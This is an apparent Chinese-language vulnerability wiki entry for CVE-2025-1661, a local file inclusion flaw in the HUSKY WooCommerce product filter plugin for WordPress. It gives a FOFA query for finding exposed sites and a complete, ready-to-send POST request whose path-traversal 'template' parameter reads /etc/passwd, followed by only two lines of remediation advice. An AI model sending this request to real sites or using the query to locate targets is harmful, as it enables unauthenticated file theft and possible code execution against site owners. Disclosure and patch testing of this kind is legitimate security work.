

#  wordPress WooCommerce 本地文件包含漏洞（CVE-2025-1661）

# 漏洞描述

适用于 WordPress 的 HUSKY – WooCommerce 插件的 HUSKY – Products Filter Professional for WooCommerce 插件在 1.3.6.5 之前的所有版本中都容易受到本地文件包含的攻击，通过 woof_text_search AJAX作的“template”参数。这使得未经身份验证的攻击者可以在服务器上包含和执行任意文件，从而允许执行这些文件中的任何 PHP 代码。这可用于绕过访问控制、获取敏感数据，或在可以上传和包含图像和其他“安全”文件类型的情况下实现代码执行。

# 影响版本

HUSKY – WooCommerce < 1.3.6.6

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/woocommerce-products-filter/"

POC/EXP：

```
POST /wp-admin/admin-ajax.php?template=../../../../../../../etc/passwd&value=a&min_symbols=1  HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
 
action=woof_text_search&
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
